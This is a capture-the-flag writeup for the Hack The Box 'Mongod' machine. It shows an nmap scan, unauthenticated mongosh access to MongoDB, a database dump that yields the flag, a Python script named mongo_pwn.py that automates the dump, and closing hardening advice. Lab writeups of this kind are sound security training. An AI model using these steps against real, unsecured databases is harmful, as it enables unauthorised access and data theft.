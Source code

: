 ﻿# Hack The Box - Mongod Writeup

![HTB Banner](https://www.hackthebox.com/badge/image/your-badge-id)

# 🔥 Overview
**Machine Name:** Mongod  
**Difficulty:** Easy  
**Vulnerability:** MongoDB Misconfiguration  
**Attack Vector:** Unauthenticated Database Access  
**Technology Stack:** MongoDB NoSQL Database (TCP:27017)  

---

## 🎯 **Target Enumeration & Recon**

# **1️⃣ Nmap Scan**
We start with an **Nmap** scan to identify open ports and services running on the target machine:

```bash
nmap -sC -sV -p- 10.129.107.200
```

**Results:**
```
PORT      STATE SERVICE    VERSION
27017/tcp open  mongodb    MongoDB 3.6.8
```
MongoDB is running on **port 27017**, and based on the **version (3.6.8)**, it might be **misconfigured**.

---

# 🚀 **Exploitation: Unauthenticated MongoDB Access**
MongoDB sometimes allows **unauthenticated access**, meaning we can connect and extract information **without credentials**.

# **2️⃣ Connecting to MongoDB**
We use `mongosh` (MongoDB shell) to check if we have direct access:

```bash
mongosh mongodb://10.129.107.200:27017
```

If we connect successfully, we can list the available databases:

```javascript
show dbs;
```

**Output:**
```
admin                  32.00 KiB
config                 72.00 KiB
local                  72.00 KiB
sensitive_information  32.00 KiB
users                  32.00 KiB
```

The **`sensitive_information`** database seems interesting.

---

# 🎯 **Extracting the Flag**
Let's switch to the **sensitive_information** database and list its collections:

```javascript
use sensitive_information;
show collections;
```

**Output:**
```
flag
```

We extract the data:

```javascript
db.flag.find();
```

**Output:**
```json
[
  {
    "_id": ObjectId("630e3dbcb82540ebbd1748c5"),
    "flag": "1b6e6fb359e7c40241b6d431427ba6ea"
  }
]
```

✅ **FLAG FOUND:** `1b6e6fb359e7c40241b6d431427ba6ea`

---

# 🔥 **Automating the Exploit**
Instead of doing this manually, we created a Python exploit:

```python
import os
import subprocess
import re

TARGET_IP = "10.129.107.200"
OUTPUT_FILE = "mongo_output.json"

def extract_flag():
    print("[*] Connecting to MongoDB and extracting flag...")

    mongosh_commands = """
    show dbs;
    use sensitive_information;
    show collections;
    db.flag.find();
    """

    result = subprocess.run(
        ["mongosh", f"mongodb://{TARGET_IP}:27017", "--quiet"],
        input=mongosh_commands,
        text=True,
        capture_output=True
    )

    output = result.stdout.strip()
    if not output:
        print("[-] No output received from MongoDB.")
        return

    with open(OUTPUT_FILE, "w") as f:
        f.write(output)

    print(f"[+] MongoDB output saved to {OUTPUT_FILE}")

    match = re.search(r"flag:\s*'([a-f0-9]+)'", output)
    if match:
        flag = match.group(1)
        print(f"[✔] FLAG EXTRACTED: {flag}")
    else:
        print("[-] Flag not found.")

if __name__ == "__main__":
    extract_flag()
```

Save this script as `mongo_pwn.py` and run:

```bash
python3 mongo_pwn.py
```

---

# 🎯 **Conclusion**
This box demonstrates the **importance of securing MongoDB** against unauthenticated access. The key takeaways:

- Always **require authentication** for databases.
- **Disable remote access** if not needed.
- **Upgrade MongoDB** to prevent known exploits.

✅ **Mission Accomplished!** 🎉

---

# 💀 **AfterDark Security**
Follow **#AfterDark** for more **CTF solutions, pentesting tricks, and cybersecurity research!**  
🚀 **GitHub:** [Your Repo Link]  
🐦 **Twitter:** [Your Twitter Handle]  

---

